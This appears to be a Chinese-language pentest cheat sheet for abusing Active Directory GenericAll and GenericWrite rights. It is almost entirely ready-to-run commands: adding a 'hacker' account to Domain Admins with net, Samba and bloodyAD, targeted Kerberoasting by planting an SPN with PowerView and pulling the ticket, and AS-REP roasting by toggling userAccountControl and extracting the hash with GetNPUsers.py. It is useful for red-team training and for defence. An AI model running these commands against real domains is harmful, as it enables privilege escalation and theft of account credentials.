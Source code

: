 	使用ADACLScanner检查用户的 ACL
	https://github.com/canix1/ADACLScanner
	>ADACLScan.ps1 -Base "DC=contoso;DC=com" -Filter "(&(AdminCount=1))" -Scope subtree -EffectiveRightsPrincipal User1 -Output HTML -Show
	GenericAll on User : 可以在不知道当前密码的情况下重置用户密码
	GenericAll on Group：允许将自己（攻击者）添加到 Domain Admin 组
	在 Windows 上：net group "domain admins" hacker /add /domain
	在 Linux 上：
	使用 Samba 软件套件
	>net rpc group ADDMEM "GROUP NAME" UserToAdd -U 'hacker%MyPassword123' -W DOMAIN -I [DC IP]
	使用bloodyAD
	>bloodyAD.py --host [DC IP] -d DOMAIN -u hacker -p MyPassword123 addObjectToGroup UserToAdd 'GROUP NAME'
#### GenericAll/GenericWrite：我们可以在目标帐户上设置一个SPN，请求一个 TGS，然后获取它的哈希并对其进行 kerberoast
	检查帐户权限
	>Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
	检查当前用户是否已经设置了 SPN
	PowerView2 > Get-DomainUser -Identity <UserName> | select serviceprincipalname
	强制在账户上设置 SPN：Targeted Kerberoasting
	PowerView2 > Set-DomainObject <UserName> -Set @{serviceprincipalname='ops/whatever1'}
	PowerView3 > Set-DomainObject -Identity <UserName> -Set @{serviceprincipalname='any/thing'}
	获取票据
	PowerView2 > $User = Get-DomainUser username 
	PowerView2 > $User | Get-DomainSPNTicket | fl
	PowerView2 > $User | Select serviceprincipalname
	移除SPN
	PowerView2 > Set-DomainObject -Identity username -Clear serviceprincipalname
#### GenericAll/GenericWrite：我们可以将受害者的userAccountControl更改为不需要 Kerberos 预身份验证，获取用户的可破解 AS-REP，然后将设置更改回来。
	Windows 上
	修改userAccountControl
	PowerView2 > Get-DomainUser username | ConvertFrom-UACValue
	PowerView2 > Set-DomainObject -Identity username -XOR @{useraccountcontrol=4194304} -Verbose
	获取票据
	PowerView2 > Get-DomainUser username | ConvertFrom-UACValue
	ASREPRoast > Get-ASREPHash -Domain domain.local -UserName username
	改回修改userAccountControl
	PowerView2 > Set-DomainObject -Identity username -XOR @{useraccountcontrol=4194304} -Verbose
	PowerView2 > Get-DomainUser username | ConvertFrom-UACValue
	Linux 上
	修改userAccountControl
	>bloodyAD.py --host [DC IP] -d DOMAIN -u AttackerUser -p MyPassword setDontReqPreauthFlag target_user
	获取票据
	>GetNPUsers.py DOMAIN/target_user -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
	改回修改userAccountControl
	>bloodyAD.py --host [DC IP] -d DOMAIN -u AttackerUser -p MyPassword setDontReqPreauthFlag target_user false